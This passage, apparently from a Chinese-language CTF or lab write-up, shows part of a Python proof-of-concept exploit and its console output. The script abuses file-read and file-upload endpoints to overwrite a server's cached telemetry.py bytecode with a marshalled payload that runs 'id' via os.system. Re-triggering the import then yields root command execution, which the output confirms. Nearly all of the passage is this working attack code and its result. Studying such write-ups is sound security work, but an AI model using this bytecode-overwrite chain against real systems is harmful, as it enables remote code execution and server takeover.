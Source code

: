 ```
    unpackedSourceSize = struct.unpack("=L", sourceSize)[0]
    print(f'[*] Magic number: {magicNumber}')
    print(f'[*] Bit field: {bitField}')
    print(f'[*] Source modification time: {modTime}')
    print(f'[*] Source file size: {unpackedSourceSize}')
    codeObject = compile(RCE_SOURCE_CODE, BYTECODE_FILENAME, 'exec')
    codeBytes = marshal.dumps(codeObject)
    newBytecode = magicNumber + bitField + modDate + sourceSize + codeBytes
    return newBytecode
def triggerDynamicImport():
    requests.get(f'{baseUrl}{TELEMETRY_ENDPOINT}')
def readFile(filename):
    parameter = { 'filename': filename }
    return requests.get(f'{baseUrl}{FILE_READ_ENDPOINT}', params=parameter).content
def uploadFile(filename, fileContent):
    fileBytes = BytesIO(fileContent)
    file = { 'file': (filename, fileBytes, 'text/plain') }
    requests.post(f'{baseUrl}{FILE_UPLOAD_ENDPOINT}', files=file).text
if __name__ == '__main__':
    print('[*] Force compile telemetry.py bytecode file on the server...')
    triggerDynamicImport()
    print('[*] Reading the bytecode file content...')
    originalBytecode = readFile(BYTECODE_FILE_PATH)

    print('[*] Modifying the bytecode with our own RCE payload...')
    newBytecode = modifyBytecode(originalBytecode)
    print(f'[+] RCE payload:\n{newBytecode}')
    print('[*] Overwriting the original bytecode file with our own RCE payload...')
    uploadFile(BYTECODE_FILE_PATH, newBytecode)
    print('[*] Triggering the overwritten bytecode file...')
    triggerDynamicImport()
    payloadOutput = readFile(EXFILTRATED_FLAG_FILENAME).decode().strip()
    print(f'[+] Payload output:\n{payloadOutput}')
    
```  
```
└> python3 poc.py 
[*] Force compile telemetry.py bytecode file on the server...
[*] Reading the bytecode file content...
[*] Modifying the bytecode with our own RCE payload...
[*] Magic number: b'\xa7\r\r\n'
[*] Bit field: b'\x00\x00\x00\x00'
[*] Source modification time: Tue Apr 15 22:27:19 2025
[*] Source file size: 81
[+] RCE payload:
b'\xa7\r\r\n\x00\x00\x00\x00\xc7l\xfegQ\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\xf3B\x00\x00\x00\x97\x00\x02\x00e\x00d\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x02S\x00)\x03\xda\x02osz\x1cid > /app/uploads/output.txtN)\x02\xda\n__import__\xda\x06system\xa9\x00\xf3\x00\x00\x00\x00\xfa\x11/app/telemetry.py\xfa\x08<module>r\x08\x00\x00\x00\x01\x00\x00\x00s*\x00\x00\x00\xf0\x03\x01\x01\x01\xd8\x00\n\x80\n\x884\xd1\x00\x10\xd4\x00\x10\xd7\x00\x17\xd2\x00\x17\xd0\x186\xd1\x007\xd4\x007\xd0\x007\xd0\x007\xd0\x007r\x06\x00\x00\x00'
[*] Overwriting the original bytecode file with our own RCE payload...
[*] Triggering the overwritten bytecode file...
[+] Payload output:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```  
##   
##   
## 没有任意文件读取？黑盒场景？  
  